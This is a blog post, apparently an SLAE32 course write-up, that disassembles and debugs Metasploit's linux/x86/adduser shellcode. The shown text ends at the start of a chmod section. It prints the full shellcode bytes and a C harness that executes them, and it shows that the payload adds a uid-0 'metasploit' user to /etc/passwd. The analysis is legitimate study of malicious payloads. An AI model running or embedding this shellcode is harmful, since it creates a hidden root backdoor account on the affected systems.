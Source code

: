 ```yaml
---
layout: single
title: Shellcode Samples Analysis
date: 2019-10-07
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 4 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 4 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"
- linux/x86/read_file "Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor"<br> 
So let's start our analysis

## Adduser
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/adduser -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
We can see the assembly code 
![](/assets/images/SLAE32/assignment_5/analysis_1.png)<br>
and we can see also the syscalls involved in this payload.
We have to remember that this shellcode has the scope of insert a user with uid 0 in the system so presumibly it write a new well crafted row in /etc/passwd file.
Now let's look at the assembly and try to indentify the syscalls and other components of the shellcode.<br>
![](/assets/images/SLAE32/assignment_5/analysis_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid.png)<br>
![](/assets/images/SLAE32/assignment_5/open.png)<br>
![](/assets/images/SLAE32/assignment_5/write.png)<br>
![](/assets/images/SLAE32/assignment_5/exit.png)<br>

So we can resume the syscalls involved in this shellcode:
1. setgid
2. open
3. write
4. exit

Now we can put the shellcode inside our executing C code, compile it and debug it with gdb.<br>
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51
\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63
\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65
\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73
\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a
\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58
\xcd\x80\x6a\x01\x58\xcd\x80";

void main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
### setgid()
The first syscall as said is the ```setgid()``` that want the 0x46 in the EAX register and the gid of the caller as argument, in EBX regsister. In this case the payload set the gid to 0 (root).
![](/assets/images/SLAE32/assignment_5/setgid_0.png)<br>
Now define hook-stop procedure, ```stepi``` to the ```int 0x80``` call and check the first 4 register
<br>
```gdb
Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>print/x $eax
>print/x $ebx
>print/x $ecx
>print/x $edx
>end
```
![](/assets/images/SLAE32/assignment_5/setgid_1.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_3.png)<br>

### open()
Let's jump now to the secopnd syscall, ```open()``` that as described by ```man 2 open``` accepts 2 arguments, the pathname of the file to open and the flags that indicates with what permission it must be opened.<br>
![](/assets/images/SLAE32/assignment_5/open_0.png)<br>
So in EAX must bo stored the value of the syscall (0x5), in EBX must be stored the address of the pathname and in ECX in must be stored the permissions ```r-x``` (0x401)
![](/assets/images/SLAE32/assignment_5/open_1.png)<br>
We have to note one things here. There are 3 push dword of the ```open()``` syscall that is the file to open, let's check it.<br>
![](/assets/images/SLAE32/assignment_5/open_2.png)<br>

Copy the value 
```
6873737764
682F2F7061
682F657463 
```
and paste it in a converter<br>
![](/assets/images/SLAE32/assignment_5/analysis_4.png)<br>
Well done, we have find the file path opened by ```open()``` syscall, it's /etc/passwd, obviously in reverse order beacause we are in little endian and with a double slash to make the number of the letters divisible by 4, so ```dwssap//cte/```.<br>
According with the ``` man 2 open``` it returns a file descriptor, a small, nonnegative integer for use in subsequent system calls (read(2), write(2), lseek(2), fcntl(2), etc.).
So after the ```int 0x80``` the file descriptor is saved in EAX and the payload moves it to EBX usnig an ```xchg``` operation.<br> 

### write()
After the ```xchg``` we can see a call to a well defined address, in general a ```call dword 0x53```, in our case a ```call   0x804a093 <code+83>```. This jump is preparatory for the next syscall ```write()``` in fact if we moving forward to the next ```int 0x80``` and analyze the registers we can see that situation
![](/assets/images/SLAE32/assignment_5/write_0.png)<br>
The EAX contains the value 4 that refer to the ```write()``` syscall, EBX contains the file descriptor value and ECX contains the address memory of the buffer to write in the fd.<br>
![](/assets/images/SLAE32/assignment_5/write_1.png)<br>
What we have to know now is what this syscall will write in the /etc/passwd file. We know that the buffer starts at 0x804a06b, just after the ```call   0x804a093 <code+83>``` instrusction.<br>
![](/assets/images/SLAE32/assignment_5/write_2.png)<br>
All the code contained from address 0x804a06b to address 0x804a093 is in actual the text that will be write to /etc/passwd. Analyzing the payload again with ndisasm could help us know what's the text.
![](/assets/images/SLAE32/assignment_5/write_3.png)<br>
Let's copy the values in this range of address<br>
```
6D
657461
7370
6C
6F
69743A417A2F6449
736A
3470
3449
52
633A
303A
303A
3A2F
3A2F
62696E
2F
7368
0A598B
51
FC
```
and paste it in a converter
![](/assets/images/SLAE32/assignment_5/write_4.png)<br>
And here we go, the payload will write ```metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh``` in /etc/passwd, that means that it add a new user with uid 0 and gid 0 and /bin/sh enabled.
The payload after wrote this line, exit with code 1.

### Check the results
Let's try the payload and watch the execution
![](/assets/images/SLAE32/assignment_5/write_5.gif)<br>
It worked

## Chmod

